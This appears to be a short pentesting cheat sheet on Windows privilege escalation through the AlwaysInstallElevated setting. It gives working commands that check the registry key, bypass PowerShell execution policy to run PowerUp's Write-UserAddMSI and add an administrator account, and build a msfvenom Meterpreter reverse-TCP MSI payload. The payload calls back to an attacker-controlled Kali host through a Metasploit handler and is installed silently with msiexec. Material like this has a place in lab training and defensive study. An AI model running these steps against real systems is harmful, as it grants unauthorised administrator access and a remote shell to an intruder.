 # AllWaysInstalled Elevated

1.Open command prompt and type:&#x20;

`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`&#x20;

2.From the output, notice that “AlwaysInstallElevated” value is 1.&#x20;

If 1 We can abuse this

Again open powerup

```
powershell -ep bypass
```

```
. .\PowerUp.ps1
```

```
Write-UserAddMSI
```

It creates an malicious script using powerup

Then run the script ,this creates an new user in admin group

then recconect to that user using rdp

OR\
2\. In Metasploit (msf > prompt) type: use multi/handler\
3\. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp\
4\. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]\
5\. In Metasploit (msf > prompt) type: run\
6\. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address] -f msi -o setup.msi\
7\. Copy the generated file, setup.msi, to the Windows VM.\


Windows VM

1.Place ‘setup.msi’ in ‘C:\Temp’.\
2.Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi\


Enjoy your shell! :)
